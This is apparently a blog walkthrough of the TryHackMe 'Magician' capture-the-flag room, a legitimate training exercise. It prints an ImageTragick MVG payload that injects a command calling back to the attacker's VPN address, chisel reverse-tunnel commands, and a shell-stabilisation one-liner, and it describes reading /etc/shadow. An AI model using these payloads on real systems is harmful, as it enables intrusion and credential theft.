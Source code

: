 ```yaml
---
layout: post
title: Tryhackme - Magician
date: 2021-06-21 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,reverse-shell]
---
```


---
Magician is a easy level room in Tryhackme. Some important points to note in this room is that the ```ssh service``` is not available in this room and eventhough I got the root password hash from the ```/etc/shadow``` file, I was not able to crack the hash and get the root shell.

<br>
![cover_image](/assets/img/tryhackme/magician/1.png)

**Author** | M0N573R777 and ripcurlz
**Description** | This magical website lets you convert image file formats


Deploy the VM and let's Hack the machine.

## <ins>Enumeration</ins>
---
Before enumerating add the domain name ```magician``` to the ```/etc/hosts``` file in your local machine as provided in the description.
<br>
![etc_hosts](/assets/img/tryhackme/magician/2.png)
<br>
Let's start enumerating with the usual nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/magician/nmap_scan.png)
<br>
From the nmap scan we can see that the ports ```21/ftp```, ```8080/http-proxy``` and ```8081/http``` are open.

The first port I checked is the ```21/ftp```. At first, I thought the service took too long to respond but I found that it was made intentional.
<br>
![ftp_service](/assets/img/tryhackme/magician/3.png)
<br>

From the hint given from the ftp service, I found the webpage had to do something with converting images or manipulating images.

After visiting the webpage which works in the ```port 8081```, I confirmed my theory.
Use the url ```http://magician:8081/``` in your browser.
<br>
![http_service](/assets/img/tryhackme/magician/4.png)
<br>
From the page ```https://imagetragick.com``` I found the code to exploit. I copied the code, saved it as ```list.png``` and uploaded it.
<br>
![exploit_code](/assets/img/tryhackme/magician/6.png)
<br>
![upload_file](/assets/img/tryhackme/magician/7.png)
<br>
Then, I tried executing it, which didn't yield any result. The next thing I did is changing the command to get a ping back to my local machine.
<br>
<pre>
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|ping -c 3" your-vpn-ip'
pop graphic-context
</pre>
<br>
Save the above code as a ```.png``` file and upload it. And in my machine I executed the command...
<br>
<pre>sudo tcpdump -i tun0 icmp</pre>
<br>
I successfully got the ping back from the machine.


<ins>User flag</ins>
----
I changed the command to get the reverse shell and did the same process again.
<br>
![reverse_payload](/assets/img/tryhackme/magician/8.png)
<br>
I started an netcat listener in my local machine, and finally uploaded the image. I got the reverse shell.
<br>
![reverse_shell](/assets/img/tryhackme/magician/9.png)
<br>
I stabilized the shell using ```python3 -c 'import pty;pty.spawn("/bin/bash")'```.

I found the user flag in the home directory of the user ```magician```.
<br>
![user_flag](/assets/img/tryhackme/magician/10.png)
<br>
Without further ado, let's also get the root flag.


<ins>Root flag</ins>
----
I found some files in the same directory which gave me a hint for getting the root flag.
<br>
![note_magician](/assets/img/tryhackme/magician/11.png)
<br>
The term ```locally listening``` rang a bell, so I checked the open ports running in the localhost of the machine using the ```ss``` utility
<br>
<pre>ss -tnlp</pre>
<br>
![ss_localhost](/assets/img/tryhackme/magician/12.png)
<br>
I found that something is running on the ```port 6666```. So, I transferred the ```chisel``` tunnelling tool to tunnel the port 6666 running on the remote machine to run in my localhost. Also make the file executable using ```chmod +x ./chisel```.
<br>
<pre>
##In the local machine
./chisel server --port 8080 --reverse

##In the remote machine
./chisel client your-vpn-ip:8080 R:8081:127.0.0.1:6666
</pre>
<br>
![server_side](/assets/img/tryhackme/magician/13.png)
<br>
![client_side1](/assets/img/tryhackme/magician/14.png)
<br>
A point to note here is that, the ```port 6666``` will be blocked by ```Firefox``` by making it restricted. This is one of the security features. If you want to disable the port restriction, a simple google search will yield the answer.

So, I changed the port to work in ```8081```.
<br>
![client_side2](/assets/img/tryhackme/magician/15.png)
<br>
Going the url ```127.0.0.1:8081``` I found this...
<br>
![localhost](/assets/img/tryhackme/magician/16.png)
<br>
I tried to get the ```root.txt``` file since the root will always be placed in the ```/root``` directory. The output showed the root flag in the ```rot13``` ciphertext. This means that the wepage is running as root.
<br>
![root_flagrot](/assets/img/tryhackme/magician/18.png)
<br>
I used ```CyberChef``` to decode the text. It is a ```ROT13``` cipher.
<br>
![root_flag](/assets/img/tryhackme/magician/19.png)
<br>
I also retrieved the ```/etc/shadow``` file which contains the password hashed of all the users.
<br>
![etc_shadow](/assets/img/tryhackme/magician/20.png)
<br>
![etc_shadow](/assets/img/tryhackme/magician/21.png)
<br>
I tried cracking it using tools such as ```hashcat``` and ```crackstation.net``` but I couldn't get the root password.

Anyways we got both the user and the root flag.

Sorry for not posting so long.

That's it folks. Happy Hacking!!! 
